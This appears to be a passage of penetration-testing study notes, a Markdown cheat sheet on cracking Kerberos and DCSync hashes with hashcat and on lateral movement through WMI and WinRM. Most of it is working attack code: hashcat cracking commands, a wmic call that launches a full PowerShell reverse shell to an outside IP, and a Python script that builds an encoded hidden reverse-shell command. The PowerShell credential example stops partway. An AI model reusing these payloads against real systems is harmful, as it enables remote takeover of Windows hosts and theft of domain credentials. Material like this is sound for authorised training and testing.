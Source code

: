 ### Hashcat
```bash
# AS-REP roasted hashes
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule -o hashes.asreproast.cracked

# Kerberoasted hashes
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Crack DCSync hashes
sudo hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

---
## Lateral Movement
### WMI & WinRM
4 different techniques:
1) WMI with `wmic` (deprecated) (**very easy**)
2) WMI with PowerShell (**fairly tedious**)
3) WinRM with `winrs` (**very easy**)
4) WinRM with PowerShell Remoting (fairly tedious but **the best** because you get a real PowerShell remote session instead of a hacky reverse shell)
#### WMI with `wmic`
- Requires DCOM (TCP 135) open 
```PowerShell
# Simple RCE
wmic /node:192.168.50.73 /user:jen /password:Password123! process call create "calc"
# Reverse Shell RCE
wmic /node:192.168.50.73 /user:jen /password:Password123! process call create "powershell -nop -w hidden -c \"$client = New-Object System.Net.Sockets.TCPClient('192.168.45.195',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){$data = (New-Object System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}\""
```
#### WMI with PowerShell
- Requires DCOM (TCP 135) open 
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
run the above, start a listener, and use the output:
```PowerShell
# Create PSCredential object
$username = 'jen';
$password = 'Password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
# Create CIM object
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami